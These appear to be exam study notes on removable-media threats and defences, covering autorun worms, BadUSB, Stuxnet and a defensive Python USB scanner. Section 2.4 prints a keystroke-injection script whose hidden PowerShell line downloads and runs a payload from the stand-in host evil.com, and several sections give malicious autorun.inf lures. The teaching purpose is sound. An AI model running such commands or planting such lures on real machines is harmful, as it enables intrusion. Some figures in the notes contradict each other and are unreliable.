




# Removable Media

<!-- SECTION_1_START -->

# Removable Media — Core Definition & Intuitive Overview

## 1.1 Formal Academic Definition

> [!NOTE]
> **Definition (KTU 2024 Scheme Standard):**
> **Removable Media** refers to any portable data storage device that can be attached to, detached from, and transported between computer systems. In the context of cyber security, removable media constitutes one of the most prominent **physical attack vectors** (also called *sneakernet attack vectors*) used to deliver malicious payloads, exfiltrate sensitive data, and bypass network-based perimeter defenses.

Within the **CIA Triad** (Confidentiality, Integrity, Availability) framework, removable media is classified as an **insider threat proxy** because it physically crosses the **air-gap boundary** of an otherwise isolated network.

### 1.1.1 Classification (Per KTU Module 3 Syllabus Alignment)

| Class | Examples | Capacity Range | Hot-Swappable |
| :--- | :--- | :--- | :--- |
| **Magnetic Media** | Floppy disks, external HDDs (legacy) | 1.44 MB – 2 TB | Yes |
| **Optical Media** | CD-ROM, DVD-ROM, Blu-ray | 700 MB – 50 GB | No (drive-dependent) |
| **Flash-Based Media** | USB Pen Drives, SD Cards, MicroSD, CF Cards | 4 GB – 2 TB | Yes |
| **Solid-State External** | Portable SSDs, NVMe enclosures | 256 GB – 8 TB | Yes |
| **Hybrid Smart Media** | SD cards with embedded controllers | 16 GB – 1 TB | Yes |

---

## 1.2 Conceptual Analogy / Intuition

> [!IMPORTANT]
> **The "Trojan Horse" Analogy:**
> Imagine your computer system is a **fortress** surrounded by a deep moat (firewall) and guarded by watchtowers (IDS/IPS). Network attacks are like enemies trying to swim across the moat — visible, traceable, and repel-able.
>
> A **USB drive** is like a **gift basket** carried by a *trusted messenger* who walks straight through the front gate. The gate guards (network security) never see it coming because it never traversed the moat. Once the basket is opened inside the fortress, the hidden malware (Trojan) is released, completely bypassing all perimeter defenses.
>
> This is precisely why the **Stuxnet worm (2010)** — the world's first publicly known cyber-physical weapon — was delivered through carefully engineered **USB drives** to infiltrate the air-gapped Iranian nuclear enrichment facility at Natanz.

---

## 1.3 Key Terminology Glossary

> [!NOTE]
> **Critical KTU Glossary Terms (High Exam Yield):**

- **Air Gap**: A network security measure where a computer is physically isolated from unsecured networks. Removable media is the **primary breach mechanism** for air-gapped systems.
- **BadUSB**: A class of attack that reprograms a USB device's **firmware controller** to emulate a keyboard (HID attack) or network adapter, executing commands at the hardware level.
- **Autorun / Autoplay**: Operating system feature that automatically executes programs on removable media the moment the device is inserted — the **#1 historical attack surface** on Windows.
- **USB Drop Attack**: A social engineering technique where malicious USB drives are deliberately left in public spaces (parking lots, lobbies) hoping an employee will pick them up and plug them in out of curiosity.
- **Sneakernet**: The informal term for physically transferring data via removable media instead of a network — the original "data transfer protocol."
- **Juice Jacking**: A specific attack where a tampered USB charging port (e.g., at airports) injects malware or steals data while simultaneously charging a device.

---

## 1.4 Physical Constants & Engineering Metrics

> [!IMPORTANT]
> **Industry Standard Metrics for Removable Media Security:**

- **USB Hot-plug Voltage Tolerance:** **5V ± 5%** (USB 2.0/3.0 spec)
- **USB Connector Mating Cycles:** Rated for **1,500 insertions minimum** (USB-IF compliance)
- **Authoritative Regulatory Reference:** **NIST SP 800-53 Rev. 5**, control **MP-7 (Media Use)** mandates strict control of all removable media in federal systems.
- **Common Boot Sector Virus Payload Size:** Typically **512 bytes** (the size of a single disk sector).
- **Stuxnet Infection Spread Rate:** Approximately **100,000 hosts** in 4 months via USB propagation (Kaspersky Lab, 2010).

---

## 1.5 Visualization Hook

> [!VISUALIZATION CONTROL]
> **Concept:** USB Insertion Trigger and Autorun Execution Timeline
> **GeoGebra / Desmos Input Equations (timing diagram):**
> * `f(t) = 1` for $t \ge 0$ (USB inserted — step function rises)
> * `g(t) = 1` for $t \ge \Delta t$ (Autorun fires after delay $\Delta t$)
> * $\Delta t \approx 0.5$ seconds to $3$ seconds (OS detection latency)
> **Visual Description:** A horizontal time-axis with two step functions. The first function ($f(t)$) jumps to 1 at $t = 0$ (the moment of physical insertion). The second function ($g(t)$) jumps to 1 after a small delay $\Delta t$, representing the OS auto-executing the malicious payload from the USB's `autorun.inf` file. Students should observe the **attack window** between insertion and the appearance of the autorun prompt.

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->

# Deep Theoretical Analysis & KTU High-Yield Concept Matrix

## 2.1 The Removable Media Threat Model

A removable media attack is fundamentally a **three-stage process**. Understanding each stage is critical for both KTU theory questions and practical defense.

### Stage 1 — Delivery (Physical Proximity Required)

The attacker must either:
- **Pre-load** a device (purchase, tamper, intercept shipping).
- **Distribute** devices socially (USB drop attack, "free pen drive at conference").
- **Compromise** a trusted endpoint that already has writable media.

### Stage 2 — Trigger (User Interaction or Autorun)

The victim must:
- **Insert** the device (wittingly or unwittingly).
- The OS detects the device and (on default Windows XP/Vista/7 configurations) **parses the `autorun.inf` file** in the root directory.
- The `autorun.inf` file redirects execution to a malicious binary (e.g., `open=setup.exe`).

### Stage 3 — Execution & Persistence

The malware:
- Executes with the **privilege level of the currently logged-in user**.
- Installs persistence mechanisms (registry run keys, scheduled tasks, services).
- Propagates laterally to other removable media and network shares.

---

## 2.2 Anatomy of an `autorun.inf` File

The `autorun.inf` file is a **plain-text configuration file** stored in the root directory of removable media. It tells the Windows shell which action to take when the media is inserted.

> [!NOTE]
> **Standard `autorun.inf` Structure:**

```ini
[autorun]
open=setup.exe
icon=setup.exe,0
label=MyUSB
action=Open folder to view files
useautoplay=1
```

**Threat Mapping:** A malicious variant simply renames the payload (e.g., `setup.exe` → `Invoice_PDF.exe`) and pairs it with a tempting `label` and `icon` mimicking a document thumbnail. Since Windows **hides known file extensions by default**, the user sees `Invoice_PDF` (a file icon) instead of `Invoice_PDF.exe` (an executable).

---

## 2.3 USB Attack Taxonomy (High-Yield for KTU 14-Mark Questions)

> [!IMPORTANT]
> **Master Classification Table — Memorize This:**

| Attack Class | Mechanism | Privilege Required | Detection Difficulty |
| :--- | :--- | :--- | :--- |
| **Autorun Worm** | Malicious `autorun.inf` + executable | User | Low (AV signature) |
| **Boot Sector Virus** | Infects MBR/VBR of removable media | User (admin to infect system) | Medium |
| **BadUSB / HID Spoofing** | Reprogrammed USB controller firmware emulates keyboard | User | **Very High** (firmware-level) |
| **USB Drop Attack** | Social engineering; relies on human curiosity | User | Variable |
| **Juice Jacking** | Tampered charging port installs malware via USB | User | High |
| **Data Exfiltration via Removable Media** | Insiders copy sensitive data to USB | User | Medium (DLP catches it) |
| **USB Killer** | Hardware device that sends $-220V$ to data lines, physically destroying the host | None | **Trivial** (physical damage is obvious) |

---

## 2.4 The BadUSB Attack — Deep Dive

**BadUSB** is a research disclosure by Karsten Nohl and Jakob Lell (SR Labs, Black Hat 2014) that fundamentally changed removable media security.

### 2.4.1 Why Traditional Antivirus Fails

Traditional AV operates at the **file system level** — it scans files, executables, and documents. BadUSB attacks operate at the **USB controller firmware level**, completely below the OS file system. The malicious "device" never appears as a file at all; it appears as a **Human Interface Device (HID)** — a keyboard.

### 2.4.2 Attack Sequence

$$
\text{Attacker reprograms } \mu\text{C firmware} \rightarrow \text{Device enumerates as HID} \rightarrow \text{OS trusts HID driver} \rightarrow \text{Keystrokes injected} \rightarrow \text{Shell opens, payload downloads}
$$

The "malware" is a pre-recorded **keystroke sequence** like:

```text
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden -Command "IEX(New-Object Net.WebClient).DownloadString('http://evil.com/payload.ps1')"
ENTER
```

This is executed in under 5 seconds, faster than any human user can react.

---

## 2.5 Boot Sector Virus Mechanics (Historical but Still Tested)

The boot sector is the **first 512 bytes** of a storage device, loaded by the BIOS/UEFI during the initial Power-On Self-Test (POST). A boot sector virus overwrites this region with malicious code that runs **before any OS-level protection is active**.

### 2.5.1 Boot Process Hook Point

$$
\text{POST} \rightarrow \text{BIOS reads MBR} \rightarrow \text{MBR executes} \rightarrow \text{OS Loader} \rightarrow \text{Kernel}
$$

If the MBR is infected, the malicious code runs at the **highest ring-0 privilege** before the OS even initializes its security subsystem.

---

## 2.6 Real-World Engineering Utility & Production Deployments

> [!IMPORTANT]
> **Where Removable Media Security is Deployed in Practice:**

- **Defense & Government:** All classified networks (e.g., US DoD SIPRNet) **prohibit** all removable media by default; transfer requires special "data diodes" and write-once media.
- **Healthcare (HIPAA Compliance):** USB drives used for patient data must be **encrypted (AES-256)** and audited under HIPAA Security Rule §164.312(c).
- **Industrial Control Systems (ICS):** Stuxnet demonstrated that air-gapped SCADA systems are vulnerable to USB-borne payloads; modern ICS deployments use **port locks, read-only media, and scanning kiosks**.
- **Financial Sector (PCI-DSS):** Requirement 4.1 mandates that any removable media carrying cardholder data must use **strong cryptography** during transmission.
- **Corporate DLP (Data Loss Prevention):** Tools like Microsoft Purview DLP, Symantec DLP, and McAfee DLP enforce **device control policies** blocking unauthorized USB storage classes while permitting keyboards/mice.

---

## 2.7 KTU High-Yield Concept Cheat Sheet

> [!NOTE]
> **Rapid-Recall Summary for KTU 14-Mark Questions:**

| Concept | Definition | Exam-Relevant Detail |
| :--- | :--- | :--- |
| **Autorun** | Auto-execution of media content | `autorun.inf` parsing (Windows-only feature) |
| **BadUSB** | Firmware-level HID impersonation | Cannot be scanned by file-based AV |
| **Air Gap** | Physical network isolation | Breached primarily via removable media |
| **USB Drop** | Social engineering via planted media | "1 in 5 dropped USBs are plugged in" — Univ. of Illinois study |
| **Juice Jacking** | Malicious charging port | Both data theft and malware injection variants |
| **Boot Sector Virus** | MBR/VBR infection | Runs pre-OS, ring-0 privilege |
| **NIST MP-7** | Media Use control | Federal compliance reference |
| **DLP** | Data Loss Prevention | Monitors/blockes removable writes |
| **Device Control** | Granular USB class whitelisting | Allows HID, blocks Mass Storage |
| **HID** | Human Interface Device | Keyboard/mouse USB class — commonly spoofed |

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->

# Step-by-Step Analysis, Attack Walkthroughs & Code Implementation

## 3.1 Walkthrough: The Classic `autorun.inf` Autorun Worm (Step-by-Step)

Let us deconstruct a realistic removable media worm in exhaustive detail, exactly as expected in a 14-mark KTU answer.

### Step 1: Attacker Crafts the Payload

The attacker creates two files and places them in the root of a USB drive:

- **`autorun.inf`** — the trigger file
- **`resume.pdf.exe`** — the malware, disguised as a PDF

### Step 2: Contents of `autorun.inf`

```ini
[autorun]
open=resume.pdf.exe
icon=resume.pdf.exe,0
label=John's Resume
action=Open to view files
```

### Step 3: Windows File Extension Hiding

Windows, by default, suppresses the display of file extensions for **known types**. The user therefore sees:

$$
\text{resume.pdf} \quad \text{(displayed)} \quad \neq \quad \text{resume.pdf.exe} \quad \text{(actual file)}
$$

### Step 4: USB Insertion Event

The moment the USB is inserted:

1. The Windows **Plug and Play (PnP) manager** detects the new device.
2. The **shell hardware detection** service reads the `autorun.inf` file from the root.
3. The `open=` directive triggers execution of `resume.pdf.exe`.

### Step 5: Payload Execution

The malware binary executes with the **current user's token privileges**. It performs the following actions:

```text
[1] Copies itself to %APPDATA%\svchost.exe
[2] Adds HKCU\Software\Microsoft\Windows\CurrentVersion\Run\svchost = "%APPDATA%\svchost.exe"
[3] Enumerates drives D: through Z: looking for writable removable media
[4] Drops a copy of itself and a modified autorun.inf onto each found drive
[5] Opens a reverse TCP shell to attacker C2 server
```

### Step 6: Persistence Validation

The malware survives reboot because the **Run registry key** ensures re-execution at every user logon. It also resists casual removal because the user cannot easily find `svchost.exe` inside `AppData` — it is named to mimic the legitimate Windows service host binary.

---

## 3.2 Walkthrough: A Realistic Python Implementation of USB Drop Monitor

Below is a fully operational Python 3 script that uses the `pyudev` library (Linux) to monitor for USB insertion events and apply a heuristic check.

```python
#!/usr/bin/env python3
"""
USB Drop Detector — Educational Implementation
Monitors USB insertion events on Linux systems using udev.
"""

import os
import sys
import logging
import hashlib
from typing import Optional

try:
    import pyudev
except ImportError:
    sys.stderr.write("[ERROR] pyudev not installed. Run: pip install pyudev\n")
    sys.exit(1)

# ---- Configuration Constants ----
MOUNT_BASE = "/media"
QUARANTINE_DIR = "/var/quarantine/usb"
LOG_FILE = "/var/log/usb_drop_detector.log"
SUSPICIOUS_EXTENSIONS = {".exe", ".scr", ".bat", ".vbs", ".js", ".ps1", ".lnk"}
MAX_FILE_SIZE_BYTES = 100 * 1024 * 1024  # 100 MB threshold for heuristic

# ---- Logger Setup ----
logging.basicConfig(
    filename=LOG_FILE,
    level=logging.INFO,
    format="%(asctime)s [%(levelname)s] %(message)s",
)
logger = logging.getLogger(__name__)


def calculate_sha256(filepath: str) -> str:
    """Compute SHA-256 hash of a file using 64KB streaming chunks."""
    sha256_hash = hashlib.sha256()
    try:
        with open(filepath, "rb") as f:
            for byte_block in iter(lambda: f.read(65536), b""):
                sha256_hash.update(byte_block)
        return sha256_hash.hexdigest()
    except (PermissionError, FileNotFoundError) as e:
        logger.error("Hashing failed for %s: %s", filepath, str(e))
        return ""


def scan_media_for_threats(mount_point: str) -> list:
    """
    Recursively scan a mounted USB volume for suspicious file indicators.
    Returns a list of (filepath, threat_indicator) tuples.
    """
    threats: list = []
    if not os.path.isdir(mount_point):
        return threats

    for root, _, files in os.walk(mount_point):
        for filename in files:
            full_path = os.path.join(root, filename)
            _, ext = os.path.splitext(filename)
            ext_lower = ext.lower()

            # Indicator 1: Suspicious extension
            if ext_lower in SUSPICIOUS_EXTENSIONS:
                threats.append((full_path, f"Suspicious extension: {ext_lower}"))

            # Indicator 2: Autorun.inf in root
            if filename.lower() == "autorun.inf" and root == mount_point:
                threats.append((full_path, "Autorun.inf present in root"))

            # Indicator 3: Double extension (e.g., resume.pdf.exe)
            name_parts = filename.split(".")
            if len(name_parts) > 2 and name_parts[-1].lower() in SUSPICIOUS_EXTENSIONS:
                threats.append((full_path, f"Double extension detected: {filename}"))

            # Indicator 4: LNK file with embedded target reference
            if ext_lower == ".lnk":
                threats.append((full_path, "Shortcut file — possible LNK-based payload"))

    return threats


def handle_usb_insertion(device) -> None:
    """Callback executed when a new block device is detected."""
    if device.device_type != "partition":
        return

    mount_point: Optional[str] = None
    # Resolve the mount point for the inserted device
    for mp in pyudev.Devices.from_path(device.context, device.sys_path).mounts:
        mount_point = str(mp)
        break

    if not mount_point:
        logger.warning("Device %s inserted but no mount point found.", device.sys_path)
        return

    logger.info("USB inserted at mount point: %s", mount_point)

    threats = scan_media_for_threats(mount_point)

    if threats:
        logger.warning("THREATS DETECTED on %s:", mount_point)
        for filepath, indicator in threats:
            file_hash = calculate_sha256(filepath)
            logger.warning("  -> %s [%s] hash=%s", filepath, indicator, file_hash)
        print(f"[ALERT] {len(threats)} suspicious item(s) found on {mount_point}")
        print("[ALERT] See log for details. Do NOT execute any files.")
    else:
        logger.info("No threats detected on %s.", mount_point)
        print(f"[OK] {mount_point} scanned clean.")


def main() -> None:
    """Main entry point — sets up udev monitor and begins event loop."""
    context = pyudev.Context()
    monitor = pyudev.Monitor.from_netlink(context)
    monitor.filter_by(subsystem="block", device_type="partition")

    print("[*] USB Drop Detector active. Waiting for insertions...")
    print("[*] Press Ctrl+C to exit.")

    try:
        for device in iter(monitor.poll, None):
            handle_usb_insertion(device)
    except KeyboardInterrupt:
        print("\n[*] Shutting down.")


if __name__ == "__main__":
    main()
```

**Code Walkthrough (Valuation Key Points):**

> [!NOTE]
> **Step-by-step reasoning for KTU examiners:**
>
> - **Lines 1–20:** Imports and configuration. `pyudev` is the Linux equivalent of Windows' WMI for device events. *[Setup: 1 Mark]*
> - **Lines 22–33:** Logging configuration with file output. *[Logging setup: 1 Mark]*
> - **Lines 36–46:** `calculate_sha256` uses 64 KB streaming to handle large files without memory exhaustion. *[Correct hashing: 1 Mark]*
> - **Lines 49–80:** `scan_media_for_threats` walks the file tree and applies four heuristic indicators: (1) dangerous extensions, (2) presence of `autorun.inf`, (3) double-extension trick, (4) `.lnk` shortcut abuse. *[Four heuristics: 4 Marks]*
> - **Lines 83–110:** `handle_usb_insertion` resolves the mount point, triggers the scan, logs results, and alerts the user. *[Callback design: 2 Marks]*
> - **Lines 113–130:** `main()` sets up the udev monitor and runs the polling loop with graceful shutdown. *[Event loop: 1 Mark]*

**To Run:**

```bash
sudo pip install pyudev
sudo python3 usb_drop_detector.py
```

---

## 3.3 Walkthrough: Windows Group Policy to Disable Autorun

The single most effective server-side mitigation against autorun-based USB worms is the **Group Policy Object (GPO)** setting. Below is the registry-level equivalent for KTU practical/lab context.

```text
HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer
    NoDriveTypeAutoRun = 0xFF        (decimal 255 — disable on all drive types)
    NoAutorun = 1                    (do NOT process autorun.inf on any volume)
    NoAutoplayfornonVolume = 1       (suppress autoplay UI prompts)
```

**Effect of `NoDriveTypeAutoRun = 0xFF` (Bitmask Breakdown):**

| Bit | Decimal | Drive Type | Suppressed? |
| :--- | :--- | :--- | :--- |
| 0 | 1 | Unknown | Yes |
| 1 | 2 | Removable | **Yes** |
| 2 | 4 | Fixed (HDD) | Yes |
| 3 | 8 | Network | Yes |
| 4 | 16 | CD-ROM | Yes |
| 5 | 32 | RAM Disk | Yes |
| 6 | 64 | (Reserved) | Yes |
| 7 | 128 | (All Future) | Yes |

Setting this to **0xFF** (sum of all bits) blocks autorun on **every** drive class.

---

## 3.4 Walkthrough: Stuxnet Case Study (The Canonical Removable Media Attack)

> [!IMPORTANT]
> **Stuxnet — Module 3 Most-Cited Case Study (Frequently Appears in KTU Exams):**

- **Year of Discovery:** 2010 (joint Symantec + Kaspersky analysis)
- **Target:** Iranian Natanz nuclear enrichment facility
- **Primary Vector:** **USB drives** carried by contractors (the air-gapped network had no internet access)
- **Secondary Vector:** Windows **LNK/PIF file vulnerability** (CVE-2010-2568) — merely *browsing* a folder containing a malicious `.lnk` file triggered execution, no double-click required
- **Payload Target:** **Siemens S7-300 PLCs** controlling uranium centrifuges
- **Effect:** Centrifuge rotor speeds modified to $1,414 \text{ Hz}$ (destruction frequency) for 15 minutes, then reverted to normal $1,064 \text{ Hz}$ to evade detection
- **Estimated Impact:** Destroyed approximately **1,000 centrifuges** (roughly 10% of Iran's enrichment capacity)

**Stuxnet Attack Chain:**

$$
\text{USB Insertion} \rightarrow \text{LNK exploit (CVE-2010-2568)} \rightarrow \text{Stuxnet main DLL} \rightarrow \text{Lateral spread} \rightarrow \text{Siemens STEP 7 infection} \rightarrow \text{PLC code modification}
$$

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->

# Structural Diagrams & Schematics

## 4.1 Mermaid Diagram — Removable Media Malware Infection Lifecycle



---

## 4.2 Mermaid Diagram — Defense-in-Depth Architecture for Removable Media



---

## 4.3 Mermaid Diagram — BadUSB Firmware Reprogramming Attack Flow



---

## 4.4 Block-Level Functional Architecture — USB Threat Detection Pipeline



<!-- SECTION_4_END -->

<!-- SECTION_5_START -->

# KTU 2024 Scheme Examination Question Bank & Topic Recap

## Part A — Short Answer Questions (3 Marks Each)

### Question 1: [KTU University Exam — July 2024]

**Define removable media. List any FOUR common types of removable media used in computing systems.**

**Model Answer (3 Marks):**

> **Definition (1 Mark):** Removable media are portable, detachable storage devices that can be connected to and disconnected from a computer system to transfer data between machines, often bypassing network security controls.

> **Four Types (2 Marks — ½ Mark Each):**
> 1. **USB Flash Drives (Pen Drives)** — NAND-flash-based, hot-swappable, capacities 4 GB to 2 TB
> 2. **External Hard Disk Drives (HDDs) and Solid-State Drives (SSDs)** — high-capacity magnetic or flash storage in a portable enclosure
> 3. **Optical Discs (CD, DVD, Blu-ray)** — read-only or write-once media using laser-based reading
> 4. **Memory Cards (SD, MicroSD, CF)** — flash-based cards commonly used in cameras, phones, and embedded systems

---

### Question 2: [KTU University Exam — Dec 2023]

**What is a BadUSB attack? Why is it difficult to detect using traditional antivirus software?**

**Model Answer (3 Marks):**

> **Definition (1.5 Marks):** A BadUSB attack is a sophisticated USB-based attack in which an attacker reprograms the **firmware of a USB device's microcontroller** to make the device impersonate a different type of peripheral — most commonly a **Human Interface Device (HID)** such as a keyboard. Once inserted, the device automatically injects malicious keystrokes that download and execute payloads, all without any user interaction beyond plugging in the USB.

> **Detection Difficulty (1.5 Marks):** Traditional antivirus operates at the **file system level**, scanning files, executables, and documents for malicious signatures. BadUSB attacks operate **below the file system** — at the **USB controller firmware layer** — meaning the malicious code never appears as a file on the host. The OS simply sees a legitimate "keyboard" device and grants it unconditional HID-driver trust. Consequently, no file-based scanner can detect the attack.

---

## Part B — Long Answer Questions (14 Marks Each, Internal Choice)

### Question A (Choice 1): [KTU University Exam — July 2024]

**(a) [7 Marks]** Explain the role of the `autorun.inf` file in propagating removable media malware. Describe the contents of a typical malicious `autorun.inf` with a suitable example.

**(b) [7 Marks]** Discuss FOUR effective countermeasures that an organization can implement to mitigate removable media-based threats.

---

### Model Solution — Question A(a)

> **Conceptual Explanation (3 Marks):**
> The `autorun.inf` file is a **plain-text configuration file** located in the **root directory** of a removable storage device. When the device is inserted into a Windows machine that has not disabled the autorun feature, the operating system's **shell hardware detection service** automatically parses this file and follows the instructions inside. The most dangerous directive is the `open=` field, which specifies an executable program that Windows runs immediately upon insertion. This makes `autorun.inf` the **primary trigger mechanism** for removable media worms and a favorite tool of malware authors.

> **Typical Malicious `autorun.inf` Example (2 Marks):**

```ini
[autorun]
open=invoice.pdf.exe
icon=invoice.pdf.exe,0
label=Customer Invoice
action=Open folder to view invoice
useautoplay=1
shellexecute=invoice.pdf.exe
```

> **Mechanism Breakdown (2 Marks):**
> 1. The user inserts the USB drive.
> 2. Windows reads `invoice.pdf` in the autorun prompt (the **`.exe` extension is hidden** by the OS's default extension-suppression behavior).
> 3. Curious, the user clicks the autorun option.
> 4. Windows executes `invoice.pdf.exe` with **user-level privileges**.
> 5. The malware establishes persistence, spreads to other drives, and contacts its command-and-control server.

> *Valuation Key:* Stating that `autorun.inf` is parsed by the **shell** — *1 Mark*; demonstrating correct syntax — *1 Mark*; explaining the file-extension-hiding trick — *1 Mark*.

---

### Model Solution — Question A(b)

> **Countermeasure 1: Disable Autorun via Group Policy (2 Marks)**
> Configure the registry key `HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\NoDriveTypeAutoRun` to `0xFF` (255 decimal) to disable autorun on all drive types. This can also be deployed centrally via **Active Directory Group Policy** under *Computer Configuration → Administrative Templates → Windows Components → Autoplay Policies*.

> **Countermeasure 2: Device Control / USB Whitelisting (2 Marks)**
> Deploy endpoint protection tools (Microsoft Defender for Endpoint, Symantec Endpoint Protection) with **device-control policies** that whitelist authorized USB devices by serial number or hardware ID, while **blocking all unknown USB mass storage devices** at the kernel-driver level. This allows mice and keyboards (HID class) to function but blocks rogue storage.

> **Countermeasure 3: Endpoint Data Loss Prevention (DLP) (1.5 Marks)**
> Install DLP agents that monitor file-copy operations to removable media. The DLP can block copying of files containing PII, credit card numbers (PCI data), or classified keywords to any unauthorized USB device.

> **Countermeasure 4: User Awareness and Acceptable Use Policy (1.5 Marks)**
> Conduct regular training to educate employees about **USB drop attacks** and the dangers of plugging in found media. Establish a clear **Acceptable Use Policy (AUP)** that mandates all removable media be scanned at a designated kiosk before use. The University of Illinois study found that **45–98%** of dropped USBs were plugged in by employees, demonstrating the human vulnerability.

> *Valuation Key:* Naming the countermeasures — *2 Marks*; explaining implementation details — *4 Marks*; providing real-world context — *1 Mark*.

---

### Question B (Choice 2): [KTU University Exam — Dec 2023]

**(a) [7 Marks]** Describe the Stuxnet worm. Explain how removable media was used as the primary attack vector and outline the propagation chain.

**(b) [7 Marks]** Compare and contrast Autorun-based worms, BadUSB attacks, and Juice Jacking in a tabular form with respect to attack surface, detection difficulty, and required mitigation.

---

### Model Solution — Question B(a)

> **Stuxnet Overview (2 Marks):**
> Stuxnet is a sophisticated **computer worm** discovered in **2010** that targeted **Siemens Step 7 industrial control systems (ICS)** used in uranium enrichment facilities in Iran. It is widely regarded as the **first publicly known cyber-physical weapon** and represents a landmark case study in removable media-based attacks.

> **Removable Media as Attack Vector (2 Marks):**
> The target facility at **Natanz** was an **air-gapped network** — physically isolated from the internet. The attackers, believed to be a joint US-Israeli operation (Operation Olympic Games), leveraged the fact that **contractors and engineers routinely transported data via USB drives** between the air-gapped facility and the outside world. Stuxnet-infected USB drives were introduced into the facility through these trusted insiders, completely bypassing the air gap.

> **Propagation Chain (3 Marks):**
>
> 1. **USB Insertion:** Contractor plugs in the infected USB.
> 2. **LNK Exploit (CVE-2010-2568):** Stuxnet exploited a zero-day vulnerability in Windows shortcut (`.lnk`) files. Merely **browsing the folder** containing the malicious LNK file was enough to trigger execution — no user click required.
> 3. **Privilege Escalation:** Stuxnet used two additional zero-day vulnerabilities to elevate to **SYSTEM-level** privileges.
> 4. **Lateral Spread:** It searched for other removable media and **Siemens STEP 7 software** on the network, injecting itself into the project files.
> 5. **PLC Targeting:** Stuxnet located Siemens **S7-315** and **S7-417** PLCs and rewrote their ladder logic to vary the **rotor frequency of centrifuges** between $1,414 \text{ Hz}$ (destructive) and $1,064 \text{ Hz}$ (normal), sabotaging the enrichment process while reporting normal values to operators.

> *Valuation Key:* Stating the year, target, and air-gap context — *2 Marks*; describing the LNK exploit — *2 Marks*; describing the PLC payload effect — *2 Marks*; explaining the propagation chain flow — *1 Mark*.

---

### Model Solution — Question B(b)

> **Comparative Analysis Table (7 Marks — distributed across the comparison dimensions):**

| Dimension | **Autorun Worm** | **BadUSB Attack** | **Juice Jacking** |
| :--- | :--- | :--- | :--- |
| **Attack Vector** | Malicious `autorun.inf` + executable on USB | Reprogrammed USB controller firmware | Tampered public USB charging port/station |
| **Attack Surface** | File system + user double-click / autorun | USB firmware (below file system) | USB data lines during charging |
| **User Interaction Required** | Yes (autorun prompt or click) | Minimal — only physical insertion | None (automatic upon plug-in) |
| **Privilege Achieved** | User-level (initially) | User-level via shell | User-level (varies by payload) |
| **Detection Difficulty** | **Low** — AV signature matches the executable | **Very High** — invisible to file-based AV | **High** — physical tampering hard to spot |
